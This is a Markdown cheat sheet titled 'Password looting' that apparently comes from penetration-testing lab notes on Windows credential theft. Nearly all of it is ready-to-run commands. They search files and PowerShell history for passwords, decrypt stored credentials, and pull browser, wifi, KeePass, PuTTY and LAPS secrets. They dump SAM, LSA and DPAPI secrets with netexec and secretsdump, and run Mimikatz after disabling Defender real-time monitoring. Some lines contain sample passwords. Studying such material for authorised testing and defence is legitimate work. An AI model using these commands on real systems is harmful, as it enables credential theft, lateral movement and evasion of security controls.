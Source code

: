 ```yaml
---
title: "Password looting"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
---
```


#Credential
#### Credential Hunting

**Application Configuration Files**

- Searching for Files
```powershell
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
```

 - Dictionary Files
```powershell
gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password
```

**PowerShell History File**

- Confirming PowerShell History Save Path :
```powershell-session
(Get-PSReadLineOption).HistorySavePath
```

- Reading PowerShell History File
```powershell
gc (Get-PSReadLineOption).HistorySavePath
```

- One-liner command : 
```powershell
foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
```

**PowerShell Credentials**

- Decrypting PowerShell Credentials:

```powershell
$credential = Import-Clixml -Path 'C:\scripts\pass.xml'
$credential.GetNetworkCredential().username
$credential.GetNetworkCredential().password
```

#### Other Files

- Tools :  https://github.com/SnaffCon/Snaffler

-  Search File Contents for String - Example 1:
```cmd
cd c:\Users\htb-student\Documents & findstr /SI /M "password" *.xml *.ini *.txt
```

-  Search File Contents for String - Example 2:
```cmd
findstr /si password *.xml *.ini *.txt *.config 
findstr /si $password *.bat *.ps1
findstr /si $user *.bat *.ps1
```

-  Search File Contents for String - Example 3:
```cmd
findstr /spin "password" *.*
```

- Search File Contents with PowerShell:
```powershell
select-string -Path C:\Users\htb-student\Documents\*.txt -Pattern password
```

- Search for File Extensions - Example 1
```cmd
dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
```

- Search for File Extensions - Example 2
```cmd
 where /R C:\ *.config
```

- Search for File Extensions Using PowerShell
```powershell
Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore
```

- Download PSSqlite:
```sh
wget https://github.com/RamblingCookieMonster/PSSQLite
```

- Viewing Sticky Notes Data :
```powershell
Set-ExecutionPolicy Bypass -Scope Process

cd .\PSSQLite\
Import-Module .\PSSQLite.psd1

$db = 'C:\Users\htb-student\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite'

Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note" | ft -wrap
```

- Other Interesting Files :
```sh
%SYSTEMDRIVE%\pagefile.sys
%WINDIR%\debug\NetSetup.log
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\iis6.log
%WINDIR%\system32\config\AppEvent.Evt
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
%WINDIR%\system32\CCM\logs\*.log
%USERPROFILE%\ntuser.dat
%USERPROFILE%\LocalS~1\Tempor~1\Content.IE5\index.dat
%WINDIR%\System32\drivers\etc\hosts
C:\ProgramData\Configs\*
C:\Program Files\Windows PowerShell\*
```

#### More Credential Theft

**Cmdkey Saved Credentials**

- Listing Saved Credentials
```cmd
cmdkey /list
```

- Run Commands as Another User
```powershell
runas /savecred /user:inlanefreight\bob "COMMAND HERE"
```

**Browser Credentials**

- Download SharpChrome : 
```sh
wget https://github.com/GhostPack/SharpDPAPI

https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/SharpDPAPI.exe

./sharp.exe machinetriage /showall
```

- Retrieving Saved Credentials from Chrome :
```powershell
.\SharpChrome.exe logins /unprotect
```

**Password Managers**

If we find a `.kdbx` file on a server, workstation, or file share, we know we are dealing with a `KeePass` database which is often protected by just a master password. If we can download a `.kdbx` file to our attacking host, we can use a tool such as keepass2john to extract the password hash

- Find kdbx file :
```sh
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction
SilentlyContinue
```
- Extracting KeePass Hash
```sh
python keepass2john.py ILFREIGHT_Help_Desk.kdbx 
```

**Email**

If we gain access to a domain-joined system in the context of a domain user with a Microsoft Exchange inbox, we can attempt to search the user's email for terms such as "pass," "creds," "credentials," etc. using the tool MailSniper .
- Tool : 
https://github.com/dafthack/MailSniper

 **Tools**

- Download LaZagne:
 ```sh
wget  https://github.com/AlessandroZ/LaZagne
 ```
 
- Run LaZagne : 

```powershell
.\lazagne.exe all
```

**OR**

- Download SessionGopher :
```sh 
wget https://github.com/Arvanaghi/SessionGopher
 ```

- Use SessionGopher :
```powershell-session
Import-Module .\SessionGopher.ps1
Invoke-SessionGopher -Target WINLPE-SRV01
```

**Or:**

- Seatbelt 
https://github.com/GhostPack/Seatbelt
```shell
Seatbelt.exe -group=all -full
```

**Windows AutoLogon**

```cmd
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

**Enumerating Sessions **

```powershell-session
reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions

reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions\kali%20ssh
```

**Wifi Passwords**

- Viewing Saved Wireless Networks
```cmd
netsh wlan show profile
```

- Retrieving Saved Wireless Passwords
```cmd
netsh wlan show profile ilfreight_corp key=clear
```

**Netexec:**
```sh
netexec smb 10.10.212.150 -u "Administrator" -p "H447.++h6g5}xi" --dpapi --local-auth
nxc smb 10.10.202.39 --use-kcache -lsa --sam --dpapi
nxc smb 192.168.250.170-172 -u 'joker' -p '<3batman0893' -M gpp_password
nxc smb 10.10.202.39 --use-kcache --local-auth -M lsassy
```

**Impacket :**
```sh
secretsdump 'ms01/administrator:H447.++h6g5}xi@10.10.234.54'
```

**Mimikatz:**

- Use Mimikatz:
```cmd
Set-MpPreference -DisableRealtimeMonitoring $true

.\mimikatz.exe "token::elevate" "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

**Laps:**

```powershell
net user <current-username>
# Global Group memberships  *LAPS_Readers
netexec smb 10.10.211.230 -u abbie.smith -p "CMe1x+nlRaaWEw" --laps
```

-  **Laps v2 :** 
```powershell
Get-LAPSADPassword  -Identity srv
Get-LapsADPassword -Identity srv -DomainController dc -AsPlainText
```